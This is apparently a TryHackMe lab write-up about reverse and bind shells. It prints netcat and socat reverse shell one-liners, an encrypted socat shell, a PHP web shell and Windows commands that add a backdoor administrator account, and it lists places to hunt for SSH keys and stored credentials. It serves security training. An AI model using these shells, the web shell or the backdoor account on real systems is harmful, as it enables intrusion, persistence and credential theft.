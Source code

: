 ```yaml
---
date: '2025-01-29T16:00:00+00:00'
draft: false
title: 'What the Shell: A Guide to Shells and Payloads'
slug: what-the-shell.thm
category: writeups
showtoc: true
tags: ["tryhackme", "shells", "reverse shell", "bind shell", "netcat", "socat", "metasploit"]
summary: A comprehensive guide about various types of shells, tools for shell handling, and post-exploitation techniques.
description: A comprehensive guide about various types of shells, tools for shell handling, and post-exploitation techniques.
---
```


# What the Shell: A Guide to Shells and Payloads

# Tools Overview

## Netcat

- Known as Swiss army knife
- Unstable by default but can be improved
- Useful for banner grabbing
- Pre-installed on Linux systems
- Windows executable available

## Socat

- Similar to netcat but more stable
- More complex syntax than netcat
- Not installed by default
- Windows executable available

## Metasploit Tools

- multi/handler:
    - Useful for receiving reverse shells
    - More stable with additional options
    - Excellent for handling staged payloads
- msfvenom:
    - Used for payload generation

# Shell Types

## Reverse Shells

In reverse shells, the attacker sets up a listener on their machine while the target initiates the connection. This method is effective for bypassing firewalls.

```bash
# Attacker machine
sudo nc -nlvp 443

# Target machine
nc ip port -e /bin/bash
```

## Bind Shells

With bind shells, the target machine creates a listening port that the attacker connects to. This method may be blocked by firewalls.

```bash
# Target machine
nc -nlvp port -e "cmd.exe"

# Attacker machine
nc ip port
```

# Shell Stabilization

## Python Method

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Background shell with Ctrl + Z, then:
stty raw -echo; fg
```

## rlwrap Method

Preferred for Windows systems, but works on Linux too:

```bash
sudo apt install rlwrap
rlwrap nc -lvnp <port>
```

# Socat Usage

## Basic Reverse Shell

```bash
# Attacker
socat TCP-L:<port> -

# Target (Windows)
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

# Target (Linux)
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

## Encrypted Shells

```bash
# Generate certificate
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem

# Attacker
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

# Target
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

# Web Shells

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

# Post-Exploitation

## Linux Systems

- Check for SSH keys in /home/user/.ssh
- Look for writeable /etc/shadow or /etc/passwd

## Windows Systems

```powershell
# Add new user
net user <username> <password> /add

# Add to administrators group
net localgroup administrators <username> /add
```

Remember to check for stored credentials in registry and configuration files like FileZilla Server.xml